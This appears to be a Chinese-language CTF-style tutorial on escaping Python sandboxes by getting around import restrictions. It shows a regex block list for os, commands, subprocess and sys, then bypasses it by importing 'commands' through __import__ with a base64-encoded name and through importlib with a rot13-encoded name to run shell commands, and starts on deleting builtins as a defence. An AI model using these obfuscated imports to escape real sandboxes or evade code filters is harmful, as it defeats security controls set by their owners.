 # `import` 花式处理

`import` 关键字用来导入包，沙箱中对一些包或是函数进行了屏蔽，从 `import` 的不同方法到 `import` 的本质有多种不同的绕过方法。

## Basic

防御最基础的思路就是正则匹配代码中的内容，检测是否调用了 `import`：

```python
In [1]: import re
   ...: code = 'import os'
   ...: pat = re.compile('import\s+(os|commands|subprocess|sys)')
   ...: if pat.search(code) != None:
   ...:     raise Exception, 'Detected forbidden module.'
   ...:
---------------------------------------------------------------------------
Exception                                 Traceback (most recent call last)
<ipython-input-1-db50a328bbb7> in <module>()
      3 pat = re.compile('import\s+(os|commands|subprocess|sys)')
      4 if pat.search(code) != None:
----> 5     raise Exception, 'Detected forbidden module.'

Exception: Detected forbidden module.
```

绕过的方式也很简单，使用其他的方式来导入其他包名：

- `import` 关键字
- `__import__` 函数
- `importlib` 库

```python
__import__('Y29tbWFuZHM='.decode('base64')).getoutput('pwd')

import importlib
x = importlib.import_module('pbzznaqf'.decode('rot_13'))
print x.getoutput('pwd')
```

## Medium

在 Python2 中不用直接使用的内置函数被称为 builtin 函数，跟随 `__builtin__` 模块自动被加载。例如 `open()`、`int()`、`chr()` 这些函数相当于如下形式：

```python
__builtin__.open()
__builtin__.int()
__builtin__.chr()
```

防御的一种方法就是用 `del` 把这些函数删除：

```python
In [1]: del __builtin__.chr

In [2]: chr(1)
---------------------------------------------------------------------------
NameError                                 Traceback (most recent call last)
<ipython-input-2-288f58b79c7d> in <module>()
----> 1 chr(1)

NameError: name 'chr' is not defined
```
